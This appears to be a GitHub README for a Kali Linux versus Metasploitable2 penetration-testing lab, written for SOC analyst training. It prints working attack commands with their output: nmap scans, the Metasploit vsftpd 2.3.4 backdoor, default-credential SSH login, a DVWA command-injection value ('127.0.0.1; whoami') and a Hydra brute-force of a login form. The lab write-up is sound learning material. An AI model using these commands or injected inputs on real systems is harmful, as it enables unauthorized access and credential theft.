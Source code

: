 # kali-metasploitable-lab
Penetration testing sim using Kali Linux and Metasploitable2

# Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## Lab Setup

| Component      | Details                        |
|----------------|--------------------------------|
| Attacker       | Kali Linux (UTM VM)            |
| Target         | Metasploitable2 (UTM VM)       |
| Network        | Shared NAT / Bridged           |
| Connectivity   | Confirmed via ping             |

---

## Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

#### Basic Nmap Scan
```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
Summary of Open Ports:
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
Summary: 
- Port 21 (FTP) - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 80 (HTTP) - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### Exploit: vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

Result: 
* Successful shell access as `root`
* Verified with ```whoami```


---

### SSH Exploit

**Target IP:** 192.168.64.3  
**Tool Used:** Native OpenSSH Client

**Login Attempt:**
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3
```

Result: 
* Successful login using default credentials:
  * Username: `msfadmin`
  * Password: `msfadmin`
* Access confirmed with:
  ```whoami```

#### Compatibility Issue: Legacy SSH Key Algorithms

**Problem Encountered**
```Unable to negotiate with 192.168.64.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss```

**Solution**
```ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3```

Lessons Learned:
Modern SSH clients disable insecure key types by default. In these lab scenarios with outdated systems compatibility flags may be required to access vulnerable targets. SOC teams should monitor for these depreciated cryptographic negotiations as potential attack indicators.


---

### HTTP Exploit – DVWA Command Injection (Port 80)

**Target URL:** http://192.168.64.3/dvwa/vulnerabilities/exec/  
**Authentication:**  
- Username: `admin`  
- Password: `password`

**DVWA Configuration:**
- Set security level to `Low` under the "DVWA Security" tab

**Exploit Method:**
- Injected shell command via the IP input field:
```bash
127.0.0.1; whoami
```

**Output:**
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms
...
www-data
```

Result:
* Confirmed server responded with user `www-data`
* Successfully executed  arbitrary command (`whoami`)


---

###HTTP Brute-Force Attack – DVWA Login Page

**Target URL:** http://192.168.64.3/dvwa/login.php  
**Authentication Type:** HTTP POST Form  
**Tool Used:** Hydra

**Command Used:**
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt 192.168.64.3 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

Result: 
```[80][http-post-form] host: 192.168.64.3   login: admin   password: password```

Summary: 
* Successfully performed a dictionary-based brute-force attack using a common wordlist
* Login credentials were discovered due to weak password use
